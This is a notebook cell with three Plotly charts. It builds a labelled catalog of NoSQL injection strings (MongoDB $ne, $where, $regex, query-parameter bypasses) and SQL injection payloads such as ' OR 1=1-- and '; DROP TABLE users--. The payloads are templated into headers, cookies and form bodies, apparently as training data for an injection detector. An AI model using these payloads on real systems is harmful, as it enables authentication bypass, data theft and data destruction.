



Notebook source saved alongside these figures, in order:
### Code cell
# Cell 5: Days 28-29 - NoSQL Injection Patterns & Context-Specific Variants

print("="*80)
print("PHASE 3: DAYS 28-29 - NOSQL INJECTION & CONTEXT-SPECIFIC VARIANTS")
print("="*80)

print("\nObjective: Generate NoSQL injection patterns and context-specific attack variants")
print("Coverage: MongoDB operators, JSON bodies, REST params, headers, cookies, multi-part forms")

print("\n" + "="*80)
print("SECTION 1: NOSQL PAYLOAD TEMPLATES")
print("="*80)

# MongoDB operator-based injections
MONGODB_OPERATORS = {
    "$ne": [
        '{"username": {"$ne": null}}',
        '{"password": {"$ne": ""}}',
        '{"username": {"$ne": ""}, "password": {"$ne": ""}}',
        '{"role": {"$ne": "user"}}'
    ],
    "$gt": [
        '{"age": {"$gt": 0}}',
        '{"price": {"$gt": ""}}',
        '{"id": {"$gt": ""}}',
        '{"score": {"$gt": -1}}'
    ],
    "$lt": [
        '{"age": {"$lt": 1000}}',
        '{"price": {"$lt": 99999}}',
        '{"priority": {"$lt": 10}}'
    ],
    "$regex": [
        '{"username": {"$regex": ".*"}}',
        '{"email": {"$regex": "^admin"}}',
        '{"password": {"$regex": "."}}',
        '{"search": {"$regex": ".*", "$options": "i"}}'
    ],
    "$where": [
    '{"$where": "this.username == \\"admin\\""}',
    '{"$where": "return true"}',
    '{"$where": "function() { return true; }"}',
    '{"$where": "obj.credits - obj.debits < 0"}'
],

    "$in": [
        '{"role": {"$in": ["admin", "superuser"]}}',
        '{"username": {"$in": ["admin", "root", "administrator"]}}',
        '{"status": {"$in": [1, 2, 3, "active"]}}'
    ],
    "$nin": [
        '{"status": {"$nin": ["banned", "suspended"]}}',
        '{"role": {"$nin": ["guest"]}}'
    ],
    "$or": [
        '{"$or": [{"username": "admin"}, {"role": "admin"}]}',
        '{"$or": [{"price": {"$lt": 0}}, {"stock": {"$gt": 1000}}]}'
    ],
    "$and": [
        '{"$and": [{"price": {"$gt": 0}}, {"stock": {"$ne": 0}}]}',
        '{"$and": [{"role": "admin"}, {"active": true}]}'
    ]
}

# Regex-based injection for .find() calls
REGEX_INJECTION_PATTERNS = [
    '{"username": {"$regex": "^a.*"}}',
    '{"email": {"$regex": ".*@admin\\\\.com$"}}',
    '{"search": {"$regex": "(a|b|c)*", "$options": "i"}}',
    '{"field": {"$regex": ".*", "$options": "s"}}'
]

# Query parameter JSON attacks
QUERY_PARAM_ATTACKS = [
    'username[$ne]=admin&password[$ne]=pass',
    'age[$gt]=0',
    'price[$lt]=1000',
    'role[$in][]=admin&role[$in][]=root',
    'username[$regex]=.*&password[$ne]=x'
]

print("Defined NoSQL payload templates:")
print(f"  MongoDB operators: {len(MONGODB_OPERATORS)} types, {sum(len(v) for v in MONGODB_OPERATORS.values())} variants")
print(f"  Regex patterns: {len(REGEX_INJECTION_PATTERNS)}")
print(f"  Query param attacks: {len(QUERY_PARAM_ATTACKS)}")

print("\n" + "="*80)
print("SECTION 2: CONTEXT-SPECIFIC INJECTION TEMPLATES")
print("="*80)

# Context-specific attack vectors
CONTEXT_TEMPLATES = {
    "REST_JSON_body": [
        '{{"username": "{payload}", "password": "test"}}',
        '{{"id": {payload}}}',
        '{{"search": "{payload}", "limit": 10}}',
        '{{"filter": {payload}}}'
    ],
    "URL_query_param": [
        '?username={payload}&password=test',
        '?search={payload}',
        '?filter={payload}&sort=asc',
        '?id={payload}'
    ],
    "HTTP_header_UserAgent": [
        'User-Agent: {payload}',
        'User-Agent: Mozilla/5.0 {payload}',
        'User-Agent: {payload} Chrome/90.0'
    ],
    "HTTP_header_Referer": [
        'Referer: http://site.com?id={payload}',
        'Referer: {payload}',
        'Referer: http://evil.com/{payload}'
    ],
    "HTTP_header_XForwardedFor": [
        'X-Forwarded-For: {payload}',
        'X-Forwarded-For: 192.168.1.1, {payload}'
    ],
    "Cookie": [
        'session={payload}',
        'user_id={payload}; session=abc123',
        'auth={payload}; path=/',
        'token={payload}'
    ],
    "Multipart_form": [
        'Content-Disposition: form-data; name="username"\r\n\r\n{payload}',
        'Content-Disposition: form-data; name="file"; filename="{payload}"\r\n\r\ndata',
        'Content-Disposition: form-data; name="comment"\r\n\r\n{payload}'
    ]
}

print("Defined context-specific templates:")
for ctx, templates in CONTEXT_TEMPLATES.items():
    print(f"  {ctx}: {len(templates)} variants")

print("\n" + "="*80)
print("SECTION 3: GENERATING NOSQL & CONTEXT-SPECIFIC VARIANTS")
print("="*80)

all_nosql_variants = []
all_context_variants = []
variant_id = 0

# Generate NoSQL variants
print("\nGenerating NoSQL injection variants...")
for operator, payloads in MONGODB_OPERATORS.items():
    for payload in payloads:
        all_nosql_variants.append({
            "Query": payload,
            "Label": 1,  # Malicious
            "variant_id": f"NOSQL_{variant_id:06d}",
            "original_id": variant_id,
            "type_field": "NoSQL_JSON",
            "operator": operator,
            "context": "direct_json"
        })
        variant_id += 1

# Add regex patterns
for payload in REGEX_INJECTION_PATTERNS:
    all_nosql_variants.append({
        "Query": payload,
        "Label": 1,
        "variant_id": f"NOSQL_{variant_id:06d}",
        "original_id": variant_id,
        "type_field": "NoSQL_regex",
        "operator": "$regex",
        "context": "find_query"
    })
    variant_id += 1

# Add query parameter attacks
for payload in QUERY_PARAM_ATTACKS:
    all_nosql_variants.append({
        "Query": payload,
        "Label": 1,
        "variant_id": f"NOSQL_{variant_id:06d}",
        "original_id": variant_id,
        "type_field": "NoSQL_param",
        "operator": "mixed",
        "context": "url_parameter"
    })
    variant_id += 1

print(f"Total NoSQL variants generated: {len(all_nosql_variants)}")

# Generate context-specific variants
print("\nGenerating context-specific variants...")
context_variant_id = 0

# Sample base SQL injections to contextualize
base_sql_payloads = [
    "' OR 1=1--",
    "admin'--",
    "' UNION SELECT NULL--",
    "1' AND '1'='1",
    "'; DROP TABLE users--"
]

for context_type, context_templates in CONTEXT_TEMPLATES.items():
    for template in context_templates:
        for base_payload in base_sql_payloads:
            try:
                contextualized_query = template.replace("{payload}", base_payload)
                all_context_variants.append({
                    "Query": contextualized_query,
                    "Label": 1,
                    "variant_id": f"CTX_{context_variant_id:06d}",
                    "original_id": context_variant_id,
                    "type_field": context_type,
                    "base_payload": base_payload,
                    "context": context_type
                })
                context_variant_id += 1
            except Exception as e:
                print(f"Error generating context variant: {e}")

print(f"Total context-specific variants generated: {len(all_context_variants)}")

print("\n" + "="*80)
print("SECTION 4: ANALYZING VARIANT DISTRIBUTION")
print("="*80)

# Convert to DataFrames
nosql_df = pd.DataFrame(all_nosql_variants)
context_df = pd.DataFrame(all_context_variants)

# Analyze NoSQL by operator
nosql_by_operator = nosql_df['operator'].value_counts()
print("\nNoSQL variants by operator:")
print(nosql_by_operator.to_string())

# Analyze context variants by type
context_by_type = context_df['type_field'].value_counts()
print("\nContext-specific variants by type:")
print(context_by_type.to_string())

# Plotly Visualization 1: NoSQL Operator Distribution
fig1 = go.Figure(data=[
    go.Bar(
        x=nosql_by_operator.index,
        y=nosql_by_operator.values,
        text=nosql_by_operator.values,
        textposition='auto',
        marker=dict(
            color=nosql_by_operator.values,
            colorscale='Teal',
            showscale=False
        )
    )
])

fig1.update_layout(
    title="NoSQL Injection Variants by MongoDB Operator",
    xaxis_title="MongoDB Operator",
    yaxis_title="Number of Variants",
    height=500,
    template="plotly_white"
)

fig1.show()


# Plotly Visualization 2: Context-Specific Distribution
fig2 = go.Figure(data=[
    go.Bar(
        x=context_by_type.index,
        y=context_by_type.values,
        text=context_by_type.values,
        textposition='auto',
        marker=dict(
            color=context_by_type.values,
            colorscale='Purples',
            showscale=False
        ),
        orientation='h'
    )
])

fig2.update_layout(
    title="Context-Specific Injection Variants Distribution",
    xaxis_title="Number of Variants",
    yaxis_title="Context Type",
    height=600,
    template="plotly_white"
)

fig2.show()


# Plotly Visualization 3: Combined Overview (Sunburst)
combined_data = []
for _, row in nosql_df.iterrows():
    combined_data.append({"Category": "NoSQL", "Type": row['type_field'], "Operator": row['operator']})
for _, row in context_df.iterrows():
    combined_data.append({"Category": "Context-Specific", "Type": row['type_field'], "Operator": "N/A"})

combined_df = pd.DataFrame(combined_data)

fig3 = px.sunburst(
    combined_df,
    path=['Category', 'Type'],
    title="NoSQL & Context-Specific Variants Hierarchy",
    height=700
)

fig3.show()


print("\n" + "="*80)
print("SECTION 5: SAVING CATALOGS")
print("="*80)

# Save NoSQL catalog
nosql_path = '../data/phase3/adversarial_catalog/nosql_injection_variants.csv'
nosql_df.to_csv(nosql_path, index=False)
print(f"\nNoSQL catalog saved: {nosql_path}")
print(f"  Total variants: {len(nosql_df)}")

# Save context-specific catalog
context_path = '../data/phase3/adversarial_catalog/context_specific_variants.csv'
context_df.to_csv(context_path, index=False)
print(f"\nContext-specific catalog saved: {context_path}")
print(f"  Total variants: {len(context_df)}")

# Create combined manifest
manifest = {
    "generation_date": datetime.now().strftime('%Y-%m-%d %H:%M:%S'),
    "nosql_catalog": {
        "total_variants": len(nosql_df),
        "operators": nosql_by_operator.to_dict(),
        "type_distribution": nosql_df['type_field'].value_counts().to_dict()
    },
    "context_specific_catalog": {
        "total_variants": len(context_df),
        "context_types": context_by_type.to_dict(),
        "base_payloads": len(base_sql_payloads)
    },
    "files": {
        "nosql_catalog": "nosql_injection_variants.csv",
        "context_catalog": "context_specific_variants.csv"
    }
}

manifest_path = '../data/phase3/adversarial_catalog/nosql_context_manifest.json'
with open(manifest_path, 'w') as f:
    json.dump(manifest, f, indent=2)
print(f"\nManifest saved: {manifest_path}")

print("\n" + "="*80)
print("DAYS 28-29 COMPLETED - NOSQL & CONTEXT-SPECIFIC VARIANTS")
print("="*80)

print("\nDeliverables Created:")
print("  1. nosql_injection_variants.csv - Complete NoSQL catalog")
print("  2. context_specific_variants.csv - Context-specific variants")
print("  3. nosql_context_manifest.json - Generation metadata")
print("  4. nosql_operator_distribution.png - Operator breakdown")
print("  5. context_specific_distribution.png - Context type breakdown")
print("  6. nosql_context_hierarchy.png - Sunburst visualization")

print("\nSummary Statistics:")
print(f"  NoSQL variants: {len(nosql_df)}")
print(f"  Context-specific variants: {len(context_df)}")
print(f"  Total new samples: {len(nosql_df) + len(context_df)}")
print(f"  MongoDB operators covered: {len(MONGODB_OPERATORS)}")
print(f"  Context types covered: {len(CONTEXT_TEMPLATES)}")
print(f"  All variants labeled (Label=1) and type-tagged")

print("\nNext Steps (Days 30-32):")
print("  Implement character-level obfuscation (leet speak, homoglyphs)")

print("\nPhase 3 Status: 45% complete (9/20 days)")

### Figure 1 — Plotly figure (JSON) as saved in the notebook; plotly's stock layout.template omitted (floating-point values rounded to 4 significant figures)
{"data": [{"marker": {"color": [8, 5, 4, 4, 4, 3, 3, 2, 2, 2], "colorscale": [[0, "rgb(209, 238, 234)"], [0.1667, "rgb(168, 219, 217)"], [0.3333, "rgb(133, 196, 201)"], [0.5, "rgb(104, 171, 184)"], [0.6667, "rgb(79, 144, 166)"], [0.8333, "rgb(59, 115, 143)"], [1, "rgb(42, 86, 116)"]], "showscale": false}, "text": [8, 5, 4, 4, 4, 3, 3, 2, 2, 2], "textposition": "auto", "type": "bar", "x": ["$regex", "mixed", "$ne", "$gt", "$where", "$lt", "$in", "$nin", "$or", "$and"], "y": [8, 5, 4, 4, 4, 3, 3, 2, 2, 2]}], "layout": {"height": 500, "title": {"text": "NoSQL Injection Variants by MongoDB Operator"}, "xaxis": {"title": {"text": "MongoDB Operator"}}, "yaxis": {"title": {"text": "Number of Variants"}}}}

### Figure 2 — Plotly figure (JSON) as saved in the notebook; plotly's stock layout.template omitted (floating-point values rounded to 4 significant figures)
{"data": [{"marker": {"color": [20, 20, 20, 15, 15, 15, 10], "colorscale": [[0, "rgb(252,251,253)"], [0.125, "rgb(239,237,245)"], [0.25, "rgb(218,218,235)"], [0.375, "rgb(188,189,220)"], [0.5, "rgb(158,154,200)"], [0.625, "rgb(128,125,186)"], [0.75, "rgb(106,81,163)"], [0.875, "rgb(84,39,143)"], [1, "rgb(63,0,125)"]], "showscale": false}, "orientation": "h", "text": [20, 20, 20, 15, 15, 15, 10], "textposition": "auto", "type": "bar", "x": ["REST_JSON_body", "URL_query_param", "Cookie", "HTTP_header_UserAgent", "HTTP_header_Referer", "Multipart_form", "HTTP_header_XForwardedFor"], "y": [20, 20, 20, 15, 15, 15, 10]}], "layout": {"height": 600, "title": {"text": "Context-Specific Injection Variants Distribution"}, "xaxis": {"title": {"text": "Number of Variants"}}, "yaxis": {"title": {"text": "Context Type"}}}}

### Figure 3 — Plotly figure (JSON) as saved in the notebook; plotly's stock layout.template omitted (floating-point values rounded to 4 significant figures)
{"data": [{"branchvalues": "total", "domain": {"x": [0, 1], "y": [0, 1]}, "hovertemplate": "labels=%{label}<br>count=%{value}<br>parent=%{parent}<br>id=%{id}<extra></extra>", "ids": ["Context-Specific/Cookie", "Context-Specific/HTTP_header_Referer", "Context-Specific/HTTP_header_UserAgent", "Context-Specific/HTTP_header_XForwardedFor", "Context-Specific/Multipart_form", "NoSQL/NoSQL_JSON", "NoSQL/NoSQL_param", "NoSQL/NoSQL_regex", "Context-Specific/REST_JSON_body", "Context-Specific/URL_query_param", "Context-Specific", "NoSQL"], "labels": ["Cookie", "HTTP_header_Referer", "HTTP_header_UserAgent", "HTTP_header_XForwardedFor", "Multipart_form", "NoSQL_JSON", "NoSQL_param", "NoSQL_regex", "REST_JSON_body", "URL_query_param", "Context-Specific", "NoSQL"], "name": "", "parents": ["Context-Specific", "Context-Specific", "Context-Specific", "Context-Specific", "Context-Specific", "NoSQL", "NoSQL", "NoSQL", "Context-Specific", "Context-Specific", "", ""], "type": "sunburst", "values": [20, 15, 15, 10, 15, 28, 5, 4, 20, 20, 115, 37]}], "layout": {"height": 700, "legend": {"tracegroupgap": 0}, "title": {"text": "NoSQL & Context-Specific Variants Hierarchy"}}}
